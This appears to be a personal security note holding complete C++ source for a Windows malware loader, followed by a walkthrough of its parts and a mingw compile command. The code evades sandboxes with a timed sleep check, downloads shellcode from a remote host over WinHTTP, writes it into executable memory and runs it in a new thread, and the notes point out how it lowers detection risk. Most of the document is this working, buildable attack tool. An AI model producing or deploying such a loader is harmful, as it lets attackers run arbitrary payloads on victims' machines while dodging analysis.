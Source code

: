 
This code is a **C++ Windows malware loader** — it bypasses dynamic analysis, downloads shellcode from a remote server, allocates memory, writes the shellcode into it, and executes it. Below is a breakdown of each part

```C++
#include <windows.h>
#include <winhttp.h>
#include <iostream>
#include <vector>
#include <conio.h>

#pragma comment(lib, "winhttp.lib")
#pragma comment (lib, "Mswsock.lib")
#pragma comment (lib, "AdvApi32.lib")
#pragma comment(lib, "ntdll")

void BypassDynamicAnalysis()
{

	int tick = GetTickCount64();
	Sleep(5000);
	int tock = GetTickCount64();
	if ((tock - tick) < 4500)
		exit(0);
}

std::vector<BYTE> Download(LPCWSTR baseAddress,int port,LPCWSTR filename)
{
    HINTERNET hSession = WinHttpOpen(
        NULL,
        WINHTTP_ACCESS_TYPE_AUTOMATIC_PROXY,
        WINHTTP_NO_PROXY_NAME,
        WINHTTP_NO_PROXY_BYPASS,
        0);

    HINTERNET hConnect = WinHttpConnect(
        hSession,
        baseAddress,
        port,
        0);


    // create request handle
    HINTERNET hRequest = WinHttpOpenRequest(
        hConnect,
        L"GET",
        filename,
        NULL,
        WINHTTP_NO_REFERER,
        WINHTTP_DEFAULT_ACCEPT_TYPES,
        0);

    WinHttpSendRequest(
        hRequest,
        WINHTTP_NO_ADDITIONAL_HEADERS,
        0,
        WINHTTP_NO_REQUEST_DATA,
        0,
        0,
        0);

    WinHttpReceiveResponse(
        hRequest,
        NULL);

    std::vector<BYTE> buffer;
    DWORD bytesRead = 0;

    do {

        BYTE temp[4096]{};
        WinHttpReadData(hRequest, temp, sizeof(temp), &bytesRead);

        if (bytesRead > 0) {
            buffer.insert(buffer.end(), temp, temp + bytesRead);
        }

    } while (bytesRead > 0);

    WinHttpCloseHandle(hRequest);
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);

    return buffer;
}

wchar_t* CharArrayToLPCWSTR(const char* array)
{
	wchar_t* wString = new wchar_t[4096];
	MultiByteToWideChar(CP_ACP, 0, array, -1, wString, 4096);
	return wString;
}

int main(int argc, char* argv[])
{
    BypassDynamicAnalysis();
    std::vector<BYTE> recvbuf;
    recvbuf = Download(L"ip", std::stoi("port"), L"/test.bin");
    
	LPVOID alloc_mem = VirtualAlloc(NULL, recvbuf.size(), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

	if (!alloc_mem) {
		printf("Well... it failed! (%u)\n", GetLastError());
		return -1;
	}

	CopyMemory(alloc_mem, recvbuf.data(), recvbuf.size());

	DWORD oldProtect;
	if (!VirtualProtect(alloc_mem, sizeof(recvbuf), PAGE_EXECUTE_READ, &oldProtect)) {
		printf("Failed sd asd asd asdto change memory protection (%u)\n", GetLastError());
		return -2;
	}

	HANDLE tHandle = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)alloc_mem, NULL, 0, NULL);
	if (!tHandle) {
		printf("Failed thread (%u)\n", GetLastError());
		return -3;
	}
	printf("\n\nalloc_mem address : %p\n", alloc_mem);
	WaitForSingleObject(tHandle, INFINITE);
	((void(*)())alloc_mem)();

	return 0;

}
```



```
void BypassDynamicAnalysis()
{
    int tick = GetTickCount64();
    Sleep(5000);
    int tock = GetTickCount64();
    if ((tock - tick) < 4500)
        exit(0);
}

```

Detects if it's running in a sandbox or under analysis by checking whether the `Sleep(5000)` actually delays for 5 seconds.

```
wchar_t* CharArrayToLPCWSTR(const char* array)

```

- Converts a regular `char*` string to `LPCWSTR`.
    
- Not actually used in this code right now, could be for future dynamic inputs.

```
LPVOID alloc_mem = VirtualAlloc(...);
CopyMemory(...);
VirtualProtect(...);
CreateThread(...);
```

- **`VirtualAlloc`**: Allocates memory with `PAGE_EXECUTE_READWRITE`.
    
- **`CopyMemory`**: Copies the downloaded shellcode into the allocated buffer.
    
- **`VirtualProtect`**: Changes the memory to `PAGE_EXECUTE_READ`, reducing detection risk.
    
- **`CreateThread`**: Executes the shellcode in a new thread.
    
- **`WaitForSingleObject`**: Waits for the shellcode thread to finish execution.


Now, we can perform the compilation as follows:

```
x86_64-w64-mingw32-g++ --static webloader.cpp -o webloader.exe -lwinhttp -fpermissive
```


![[Screenshot From 2025-04-18 16-06-06.png]]


![[Pasted image 20250418160619.png]]

